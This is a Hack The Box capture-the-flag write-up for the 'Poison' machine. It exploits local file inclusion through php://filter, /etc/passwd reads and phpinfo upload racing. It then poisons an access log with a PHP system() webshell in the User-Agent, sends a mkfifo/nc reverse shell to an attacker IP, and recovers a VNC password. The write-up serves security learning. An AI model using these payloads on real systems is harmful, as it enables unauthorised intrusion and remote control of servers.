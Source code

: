 # Alternative way to exploit Poison

## Local File Inclusion (LFI)

Instead of finding the Base64-encoded file, there are other ways to get a shell on the box.

When looking at the _phpinfo.php_ there is a line that shows that the `file_uploads` function is active.
This means that by uploading a temporary file, _phpinfo.php_ will show where it is located and use a **Local File Inclusion** to execute it.

### Testing the LFI

Lets submit any filename to the application and send it through a proxy like **Burpsuite**:
```markdown
GET /browse.php?file=testing HTTP/1.1
Host: 10.10.10.84
(...)
```

When submitting a valid page like _index.php_, it gets executed and the output is shown.
Using PHP commands to display the source code of _index.php_:
```markdown
GET /browse.php?file=php://filter/convert.base64-encode/resource=index.php
```

After sending this request, it displays the source code of _index.php_ but Base64-encoded:
```markdown
PGh0bWw+Cjxib2R5Pgo8aDE+VGVtcG9yYXJ5IHdlYnNpdGUgdG8gdGVzdCBsb2NhbCAucGhwIHNjcmlwdHMuPC9oMT4KU2l0ZXMgdG8gYmUgdGVzdGVkOiBpbmkucGhwLCBpbmZvLnBocCwgbGlzdGZpbGVzLnBocCwgcGhwaW5mby5waHAKCjwvYm9keT4KPC9odG1sPgoKPGZvcm0gYWN0aW9uPSIvYnJvd3NlLnBocCIgbWV0aG9kPSJHRVQiPgoJU2NyaXB0bmFtZTogPGlucHV0IHR5cGU9InRleHQiIG5hbWU9ImZpbGUiPjxicj4KCTxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTdWJtaXQiPgo8L2Zvcm0+Cg==
```

The string can be decoded to show the source code:
```markdown
cat index.b64 | base64 -d
```

This also allows to get other files on the server like _/etc/passwd_ for example:
```markdown
GET /browse.php?file=/etc/passwd
```

This proofs that **LFI** is working.

### Code Execution with phpinfo

With `file_upload` enabled, it is possible to upload files that PHP accepts and those will be stored in a cached directory. When executing them with the LFI vulnerability, we get potential code execution.

This is explained in [this paper from InsomniaSec](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf).

The request method has to be _POST_ and the _Content-Type_ is also changed and the whole request looks like this:
```markdown
POST /phpinfo.php HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.84/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=--Test
Content-Length: 0

----Test
Content-Disposition: form-data; name="anything"; filename="testfile"
Content-Type: text/plain

This is a test string
----Test
```

After sending the request and looking at the PHP variables, we see that the data is included in there:

![Phpinfo variables](https://kyuu-ji.github.io/htb-write-up/poison/poison_phpinfo-1.png)

The cached file has the name _/tmp/phpNdOnxX_ and will be there for a short time.
To access the cached file, we will use the script from the paper that will try to win a Race Condition. It can also be found in the [PayloadAllTheThings GitHub repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py).

The Python script has to be modified accordingly.
I used the _php-reverse-shell_ from **Laudanum** as the payload and my IP and port 9001 as the listener.
```markdown
python poison_phpinfolfi.py 10.10.10.84 100
```

After a while the listener on my IP and port 9001 spawns a reverse shell on the box!

### Code Execution with Log Poisoning

The LFI can also be used for **Log Poisoning**.
When looking at the log file _/var/log/httpd-access.log_ it also shows the User-Agent:
```markdown
10.10.14.39 - - [02/May/2020:10:59:24 +0200] "GET / HTTP/1.1" 200 289 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

It is possible to modify this with **Burpsuite**:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: Test'
```
```markdown
10.10.14.39 - - [02/May/2020:11:07:22 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 1657 "http://10.10.10.84/" "Test'"
```

When using PHP code in the User-Agent, it gets executed:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php echo('Test'); ?>
```

There are no PHP tags but instead just the _"Test"_ string.
```markdown
10.10.14.39 - - [02/May/2020:11:09:42 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 1953 "http://10.10.10.84/" "Test"
```

This means PHP Code Execution works and it is possible to run system commands:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php system($\_REQUEST['cmd']); ?>
```

Executing any system command:
```markdown
http://10.10.10.84/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=uname+-a
```
```markdown
10.10.14.39 - - [02/May/2020:11:16:11 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=uname+-a HTTP/1.1" 200 3172 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Lets execute a PHP reverse shell:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=mkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+|nc+10.10.14.39+9002+>/tmp/f HTTP/1.1
```

The listener on my IP and port 9002 starts a reverse shell as the user _www_.

## Cracking the VNC password

The _secret_ file is an encrypted password but there are [tools on GitHub](https://github.com/jeroennijhof/vncpwd) to decrypt it:
```markdown
./vncpwd secret
```

The password is:
> VNCP@$$!
